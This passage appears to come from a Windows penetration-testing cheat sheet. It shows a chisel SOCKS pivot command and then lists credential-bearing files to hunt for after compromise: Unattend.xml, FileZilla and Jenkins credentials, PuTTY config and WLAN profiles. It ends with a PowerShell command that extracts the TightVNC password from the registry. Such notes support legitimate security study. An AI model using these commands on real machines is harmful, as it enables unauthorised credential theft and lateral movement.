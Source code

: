 On attacking machine:

```
./chisel client localhost:8001 socks 
```

A proxy is now open on port 1080 of our attacking machine.

### Juicy files

There are lots of files that may contain interesting information. Tools like [WinPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS) or collections like [PowerSploit](https://github.com/PowerShellMafia/PowerSploit) may help in identifying juicy files (for privesc or post-exploitation).

Below is a list of some files I have encountered to be of relevance. Check files based on the programs and/or services that are installed on the machine.

> In addition, don’t forget to enumerate any local databases with `sqlcmd` or `Invoke-SqlCmd`!

```
# All user folders
## Limit this command if there are too many files ;)
tree /f /a C:\Users

# Web.config
C:\inetpub\www\*\web.config

# Unattend files
C:\Windows\Panther\Unattend.xml

# RDP config files
C:\ProgramData\Configs\

# Powershell scripts/config files
C:\Program Files\Windows PowerShell\

# PuTTy config
C:\Users\[USERNAME]\AppData\LocalLow\Microsoft\Putty

# FileZilla creds
C:\Users\[USERNAME]\AppData\Roaming\FileZilla\FileZilla.xml

# Jenkins creds (also check out the Windows vault, see above)
C:\Program Files\Jenkins\credentials.xml

# WLAN profiles
C:\ProgramData\Microsoft\Wlansvc\Profiles\*.xml

# TightVNC password (convert to Hex, then decrypt with e.g.: https://github.com/frizb/PasswordDecrypts)
Get-ItemProperty -Path HKLM:\Software\TightVNC\Server -Name "Password" | select -ExpandProperty Password 
```